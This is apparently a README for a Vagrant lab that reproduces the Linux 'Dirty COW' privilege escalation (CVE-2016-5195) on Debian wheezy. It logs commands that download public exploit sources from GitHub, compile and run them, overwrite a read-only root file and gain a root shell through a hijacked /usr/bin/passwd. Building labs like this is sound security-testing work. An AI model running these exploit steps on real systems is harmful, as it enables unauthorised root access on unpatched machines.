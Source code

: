# CVE-2016-5195_DirtyCow 

## Vulnerability information

 * Description

	Race condition in mm/gup.c in the Linux kernel 2.x through 4.x before 4.8.3 allows local users to gain privileges by leveraging incorrect handling of a copy-on-write (COW) feature to write to a read-only memory mapping, as exploited in the wild in October 2016, aka "Dirty COW."

## vagrant up

```
$ vagrant up
Bringing machine 'vve.test' up with 'virtualbox' provider...
==> vve.test: Importing base box 'debian/wheezy64'...
==> vve.test: Matching MAC address for NAT networking...
==> vve.test: Checking if box 'debian/wheezy64' is up to date...
==> vve.test: Setting the name of the VM: CVE-2016-5195_DirtyCow_vvetest_1518397500434_97609
==> vve.test: Fixed port collision for 22 => 2222. Now on port 2200.
==> vve.test: Clearing any previously set network interfaces...
(snip)
    vve.test: Guest Additions Version: 4.3.18
    vve.test: VirtualBox Version: 5.2
==> vve.test: Configuring and enabling network interfaces...
```

## vagrant ssh

```
$ vagrant ssh
Linux debian-780-wheezy 3.2.0-4-amd64 #1 SMP Debian 3.2.65-1 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Apr 24 08:15:24 2015 from 10.0.2.2
-bash: warning: setlocale: LC_ALL: cannot change locale (ja_JP.UTF-8)
-bash: warning: setlocale: LC_ALL: cannot change locale (ja_JP.UTF-8)
-bash: warning: setlocale: LC_ALL: cannot change locale (ja_JP.UTF-8)
```

## VVE infomation

```
vagrant@debian-780-wheezy:~$ lsb_release -a
No LSB modules are available.
Distributor ID: Debian
Description:    Debian GNU/Linux 7.8 (wheezy)
Release:        7.8
Codename:       wheezy
vagrant@debian-780-wheezy:~$ uname -a
Linux debian-780-wheezy 3.2.0-4-amd64 #1 SMP Debian 3.2.65-1 x86_64 GNU/Linux
```

# POC

## dirtyc0w 

exploited

```
$ wget https://raw.githubusercontent.com/dirtycow/dirtycow.github.io/master/dirtyc0w.c
$ sudo -s
# echo this is not a test > foo
# chmod 0404 foo
$ ls -lah foo
-r-----r-- 1 root root 19 Oct 20 15:23 foo
$ cat foo
this is not a test
$ gcc -pthread dirtyc0w.c -o dirtyc0w
$ ./dirtyc0w foo m00000000000000000
mmap 56123000
madvise 0
procselfmem 1800000000
$ cat foo
m00000000000000000
```

## cowroot.c

compile error

```
$ wget https://gist.githubusercontent.com/rverton/e9d4ff65d703a9084e85fa9df083c679/raw/9b1b5053e72a58b40b28d6799cf7979c53480715/cowroot.c
$ gcc cowroot.c -o cowroot -pthread
cowroot.c: In function 'procselfmemThread':
cowroot.c:98:9: warning: passing argument 2 of 'lseek' makes integer from pointer without a cast [enabled by default]
In file included from cowroot.c:27:0:
/usr/include/unistd.h:331:16: note: expected '__off_t' but argument is of type 'void *'
```

## pokemon.c

```
$ wget https://raw.githubusercontent.com/dirtycow/dirtycow.github.io/master/pokemon.c
$ echo pikachu|sudo tee pokeball;ls -l pokeball;gcc -pthread pokemon.c -o d;./d pokeball miltank;cat pokeball
pikachu
-rw-r--r-- 1 root root 8 Feb 12 02:09 pokeball
pokeball
   (___)
   (o o)_____/
    @@ `     \
     \ ____, /miltank
     //    //
    ^^    ^^
mmap 7f3aec09e000
madvise 0
ptrace 0
```

## c0w.c

got root

```
vagrant@debian-780-wheezy:~/c0w$ wget https://gist.githubusercontent.com/KrE80r/42f8629577db95782d5e4f609f437a54/raw/71c902f55c09aa8ced351690e1e627363c231b45/c0w.c
vagrant@debian-780-wheezy:~/c0w$ gcc -pthread c0w.c  -o c0w
vagrant@debian-780-wheezy:~/c0w$ ./c0w

   (___)
   (o o)_____/
    @@ `     \
     \ ____, //usr/bin/passwd
     //    //
    ^^    ^^
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
mmap 2df04000

madvise 0

ptrace 0

vagrant@debian-780-wheezy:~/c0w$ /usr/bin/passwd
root@debian-780-wheezy:/home/vagrant/c0w# whoami
root
```

## Vagrant package

```
$ vagrant package
==> vve.test: Attempting graceful shutdown of VM...
==> vve.test: Clearing any previously set forwarded ports...
==> vve.test: Exporting VM...
==> vve.test: Compressing package to: /Users/0shin/VVE/CVE-2016-5195_DirtyCow/package.box
```

## Retest

```
vagrant box add cve-2016-5195_dirtycow_debian78_wheezy package.box
vagrant init cve-2016-5195_dirtycow_debian78_wheezy
vagrant up
```

# Reference 

  * https://dirtycow.ninja/
  * https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
  * https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs
  * https://security-tracker.debian.org/tracker/CVE-2016-5195


